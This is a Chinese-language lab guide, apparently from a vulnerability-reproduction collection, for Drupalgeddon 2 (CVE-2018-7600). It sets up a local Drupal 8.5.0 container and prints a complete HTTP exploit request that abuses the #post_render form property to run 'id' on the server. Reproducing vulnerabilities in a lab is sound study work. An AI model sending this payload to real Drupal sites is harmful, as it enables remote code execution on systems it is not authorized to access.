

# Drupal Drupalgeddon 2 远程代码执行漏洞（CVE-2018-7600）

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码，这个代码最终执行了id命令：


